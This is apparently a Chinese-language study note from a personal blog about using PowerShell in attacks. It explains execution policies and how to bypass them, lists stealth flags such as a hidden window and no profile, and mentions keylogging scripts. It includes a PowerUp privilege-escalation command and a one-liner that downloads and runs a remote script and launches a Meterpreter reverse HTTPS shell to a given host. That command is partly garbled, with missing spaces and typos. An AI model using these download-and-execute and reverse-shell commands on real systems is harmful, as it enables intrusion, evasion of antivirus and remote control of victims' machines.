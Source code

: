 ```yaml
---
title: powershell
tags: tools
excerpt_separator: <!--more-->
---
```

<!--more-->
# 1.powershell脚本特点

在内存中运行 不需要写入磁盘
可以远程执行 几乎不触发杀毒软件
cmd.exe运行通常会被阻止,但是powershell运行通常不会被阻止
可以用于管理AD

# 2.执行策略 

powershell默认情况下不能执行脚本
`Get-Host` 查询当前ps版本

![image-20220204235652182](https://raw.githubusercontent.com/aloha1024/image/main/img/image-20220204235652182.png)

`Get-ExecutionPolicy`查询当前策略

![image-20220204235754058](https://raw.githubusercontent.com/aloha1024/image/main/img/image-20220204235754058.png)

powershell脚本策略有四种

1.`Restricted `

脚本不能被执行(默认)

2.`RemoteSigned `

在本地创建的脚本可以运行,从网上下载的不能运行(持有数字证书签名的除外)

3.`AllSigned `

仅当脚本由受信任的发布者签名时才能运行

4.`Unrestricted `

允许所有脚本运行

使用`Set-ExecutionPolicy <policy name>`设置powershell 执行策略

```powershell
powershell.exe -exec bypass -Command "& (Import-Module C:\PowerUp.ps1; Invoke-Allchecks)"
```

```powershell
powershell.exe -ExecutionPolicy Bypass-WindowsStyle Hidden-NoProfile-NonIIEX(New-ObjectNet.WebClient).DownloadString("http://localhoat:8080"); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.1 -Lport 80
```



 

`-ExecutionPlicy Bypass (-Exec Bypass)`

绕过执行安全策略(默认情况下ps的安全策略规定ps不能运行命令和文件)

`-WindowStyle Hidden (-W Hidden)`

隐藏窗口

`-NonInteractive (-NonI)`

非交互模式 PowerShell 不为用户提供交互式的提示。

`-NoProfile(-NoP)PowerShell `

控制台不加载当前用户的配置文件。

`-noexit`

执行后不退出Shell。这个参数在使用键盘记录等脚本时非常重要。

`-NoLogo`

启动不显示版权标志的PowerShell。

